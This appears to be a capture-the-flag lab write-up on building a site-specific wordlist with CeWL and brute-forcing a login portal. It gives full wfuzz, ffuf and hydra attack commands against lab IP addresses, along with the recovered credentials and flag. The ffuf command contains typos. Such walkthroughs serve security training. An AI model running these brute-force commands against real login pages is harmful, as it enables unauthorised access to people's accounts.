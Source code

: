![Alt text](image.png)

# Baby, it's CeWLd outside
#Brute-Forcing

After a thorough investigation, the security team discovered that a notorious individual named McGreedy, known for his dealings in the dark web, had sold the company's credentials. This sale paved the way for a random hacker from the dark web to exploit the portal. The logs point to a brute-force attack. Normally, brute-forcing takes a long time. But in this case, the hacker gained access with only a few tries. It seems that the attacker had a customised wordlist. Perhaps they used a custom wordlist generator like CeWL. Let's try to test it out ourselves!

## CeWL

CeWL (pronounced "cool") is a custom word list generator tool that spiders websites to create word lists based on the site's content. Spidering, in the context of web security and penetration testing, refers to the process of automatically navigating and cataloguing a website's content, often to retrieve the site structure, content, and other relevant details. This capability makes CeWL especially valuable to penetration testers aiming to brute-force login pages or uncover hidden directories using organisation-specific terminology.

CeWL is a wordlist generator that is unique compared to other tools available. While many tools rely on pre-defined lists or common dictionary attacks, CeWL creates custom wordlists based on web page content. Here's why CeWL stands out:

1. `Target-specific wordlists:` CeWL crafts wordlists specifically from the content of a targeted website. This means that the generated list is inherently tailored to the vocabulary and terminology used on that site. Such custom lists can increase the efficiency of brute-forcing tasks.
2. `Depth of search:` CeWL can spider a website to a specified depth, thereby extracting words from not just one page but also from linked pages up to the set depth.
3. `Customisable outputs:` CeWL provides various options to fine-tune the wordlist, such as setting a minimum word length, removing numbers, and including meta tags. This level of customisation can be advantageous for targeting specific types of credentials or vulnerabilities.
4. `Built-in features:`While its primary purpose is wordlist generation, CeWL includes functionalities such as username enumeration from author meta tags and email extraction.
5. `Efficiency:` Given its customisability, CeWL can often generate shorter but more relevant word lists than generic ones, making password attacks quicker and more precise.
6. `Integration with other tools:` Being command-line based, CeWL can be integrated seamlessly into automated workflows, and its outputs can be directly fed into other cyber security tools.
7. `Actively maintained:` CeWL is actively maintained and updated. This means it stays relevant and compatible with contemporary security needs and challenges.

Customising Commands
- -d: spidering depth 
- -m and -x: minimum and maximum word length
- -a: handling Authentication
- --extension: handling custom extensions
- --offsite: follow external links

## Brute-force the login portal using **_wfuzz_**
```
wfuzz -c -z file,usernames.txt -z file,passwords.txt --hs "Please enter the correct credentials" -u http://10.10.132.80/login.php
-d "username=FUZZ&password=FUZ2Z"
```

In the command above:<br>
-z file,usernames.txt loads the usernames list.<br>
-z file,passwords.txt uses the password list generated by CeWL.<br>
--hs "Please enter the correct credentials" hides responses containing the string "Please enter the correct credentials", which is the message displayed for wrong login attempts.<br>
-u specifies the target URL.<br>
-d "username=FUZZ&password=FUZ2Z" provides the POST data format where FUZZ will be replaced by usernames and FUZ2Z by passwords.<br>

```
UserID: isaias
Password: Happiness
Flag: THM{m3rrY4nt4rct1crAft$}
```

## Other Methods:

### fuff
```
ffuf -s -w usernames.txt:USER -w passwords.txt:PASS -u http://10.10.106.165/loqin.php -d "username=USER&password-PASS" 
-H "Content-Type: application/x-www-form-urlencoded" -fr "Please enter the correct credentials"
```

### hydra
```
hydra -L usernames.txt -P passwords.txt http-post-form://10.10.106.165/login.php:"username=^USER^&password=^PASS^"
:"Please enter the correct credentials"
```

### Turbo Intruder

### Conclusion
AntarctiCrafts' unexpected breach highlighted the power of specialised brute-force attacks. The swift and successful unauthorised access suggests the attacker likely employed a unique, context-specific wordlist, possibly curated using tools like CeWL. This tool can scan a company's public content to create a wordlist enriched with unique jargon and terminologies.


